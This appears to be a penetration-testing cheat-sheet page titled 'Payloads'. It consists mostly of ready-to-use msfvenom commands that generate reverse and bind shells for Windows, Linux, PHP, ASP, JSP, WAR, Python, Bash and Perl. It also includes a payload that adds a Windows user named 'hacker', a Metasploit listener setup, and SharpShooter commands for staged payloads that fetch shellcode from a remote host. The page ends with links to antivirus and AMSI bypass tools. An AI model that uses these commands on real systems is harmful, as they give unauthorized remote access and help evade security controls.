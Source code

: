 ```yaml
---
layout: default
title: Payloads
category: exploitation
toc:
  sidebar: left
---
```

# Payloads
---

## msfvenom
---

```sh
# Creating a payload
msfvenom -p [payload] LHOST=[listeninghost] LPORT=[listeningport]

# List of payloads
msfvenom -l payloads

# Payload options
msfvenom -p windows/x64/meterpreter_reverse_tcp --list-options

# Creating a payload with encoding
msfvenom -p [payload] -e [encoder] -f [formattype] -i [iteration]  > outputfile

# Creating a payload using a template
msfvenom -p [payload]  -x [template] -f [formattype] > outputfile

# Listener for MSfvenom Payloads:
msf5>use exploit/multi/handler  
msf5>set payload windows/meterpreter/reverse_tcp  
msf5>set lhost   
msf5>set lport   
msf5> set ExitOnSession false  
msf5>exploit -j  

#  Windows Payloads
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe    
msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe    
msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe    
msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe    
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe

#  Linux Payloads
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf    
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf    
msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf    
msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf

# Add a user in windows with msfvenom: 
msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe

#  Web Payloads
# PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST= LPORT= -f raw > shell.php
cat shell.php | pbcopy && echo shell.php && pbpaste >> shell.php

# ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp

# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f raw > shell.jsp

# WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war

#  Scripting Payloads

# Python
msfvenom -p cmd/unix/reverse_python LHOST= LPORT= -f raw > shell.py

# Bash
msfvenom -p cmd/unix/reverse_bash LHOST= LPORT= -f raw > shell.sh

# Perl
msfvenom -p cmd/unix/reverse_perl LHOST= LPORT= -f raw > shell.pl

# Creating an Msfvenom Payload with an encoder while removing bad charecters:
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x0A\x0D"
```
<br>

- ##### [windows defender bypassing for meterpreter](https://hacker.house/lab/windows-defender-bypassing-for-meterpreter/)<br><br>


### Bypass AV
---

- ##### [Veil Framework](https://github.com/Veil-Framework/Veil)<br>
- ##### [Shellter](https://www.shellterproject.com/)<br>
- ##### [Donut](https://github.com/TheWover/donut)<br>
- ##### [Vulcan](https://github.com/praetorian-code/vulcan)<br>
<br>

- ##### [Sharpshooter:](https://github.com/mdsecactivebreach/SharpShooter)

```sh
# Javascript Payload Stageless: 
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

# Stageless HTA Payload: 
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

# Staged VBS:
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4
```
<br>


## Bypass Amsi
---

- ##### [Testing for Amsi Bypass](https://github.com/rasta-mouse/AmsiScanBufferBypass)<br><br>

- ##### Amsi-Bypass-Powershell:

    - [Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
    - [hunting-for-amsi-bypasses](https://blog.f-secure.com/hunting-for-amsi-bypasses/)
    - [exploring-powershell-amsi-and-logging-evasion](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)
    - [Conducting-AMSI-Scans](https://github.com/cobbr/PSAmsi/wiki/Conducting-AMSI-Scans)

